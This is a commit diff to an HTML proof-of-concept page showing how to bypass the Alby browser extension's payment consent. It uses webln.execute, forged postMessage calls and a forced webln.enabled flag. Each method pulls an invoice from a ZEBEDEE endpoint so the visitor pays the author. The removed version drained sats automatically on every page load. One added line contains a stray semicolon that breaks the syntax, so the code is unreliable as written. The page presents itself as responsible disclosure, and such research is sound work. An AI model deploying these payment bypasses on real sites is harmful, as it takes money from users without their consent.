

Before and after one commit to AaronDewes/alby-vuln-poc, a plain HTML site: page index.html in a window 1280 px wide. Before the commit the page ends 800 px from the top, so only its background shows below. Drawn offline with nearby package versions, Linux system fonts and the light colour scheme; no server answers.

Commit message:
More content

```diff
--- a/index.html
+++ b/index.html
@@ -1,22 +1,35 @@
-<title>Your Sats are gone!</title>
+<!doctype html>
+<html>
+  <head>
+    <link rel="stylesheet" href="https://unpkg.com/@picocss/pico@latest/css/pico.min.css">
+    <title>Alby security PoC</title>
     <script>
-  async function sendFreeSats() {
-    const zbdData = await fetch("https://api.zebedee.io/v0/process-static-charges/8755f68e-54a4-497c-a50b-ce07c8270b88?amount=1000");
-    const actualInvoice = (await zbdData.json()).pr;
+      async function getInvoice(amount) {
+        const zbdData = await fetch(`https://api.zebedee.io/v0/process-static-charges/8755f68e-54a4-497c-a50b-ce07c8270b88?amount=${amount}`);
+        return (await zbdData.json()).pr;
+      }
+
+      async function sendUsingWebLnExec() {
+        await window.webln.execute("sendPayment", {
+          paymentRequest: await getInvoice(1000);
+        });
+      }
+
+      async function sendUsingPostMsg170() {
         window.postMessage(
          {
             application: "LBE",
             prompt: true,
             type: "sendPayment",
             args: {
-          paymentRequest: actualInvoice
+              paymentRequest: await getInvoice(1000),
             },
           },
           "*"
         );
-    await window.webln.execute("sendPayment", {
-      paymentRequest: actualInvoice
-    });
+      }
+
+      async function sendUsingPostMsg180() {
         window.postMessage(
          {
             application: "LBE",
@@ -24,13 +37,35 @@
             action: "sendPayment",
             type: "enable",
             args: {
-          paymentRequest: actualInvoice
+              paymentRequest: await getInvoice(1000),
             },
           },
           "*"
         );
       }
-  sendFreeSats();
+
+      async function bypassEnableSend() {
+        window.webln.enabled = true;
+        await window.webln.sendPayment(await getInvoice(1000));
+      }
     </script>
-<h1>I took your Sats!</h1>
-This is a demo site for an Alby vulnerability which sends me 1-4 sats (because it uses different ways of exploiting a vulnerability for testing purposes) on every reload. Let me know if you want me to send it back.
+  </head>
+  <body>
+  <main class="container">
+    <h1>Alby vulnerabilities PoC</h1>
+    This page demonstrates a few ways to bypass <a href="https://getalby.com">Alby</a>'s security features.
+    The development team is informed and these issues will be fixed soon.
+    <section class="container">
+      <h3>Alby 1.7.0 and below</h3>
+      <button onclick="sendUsingWebLnExec();">Send using webln.execute()</button>
+      <button onclick="sendUsingPostMsg170();">Send using window.postMessage()</button>
+    </section>
+    <section class="container">
+      <h3>Alby 1.8.0 and below</h3>
+      <button onclick="sendUsingPostMsg180();">Send using window.postMessage() and bypassing security check</button>
+      <button onclick="bypassEnableSend();">Ask for payment without calling webLn.enable</button>
+      <!--<button onclick="setupBackdoor();">Place a "backdoor" allowance</button>-->
+    </section>
+  </main>
+  </body>
+</html>
```
Lines whose indentation alone changed are shown as unchanged.
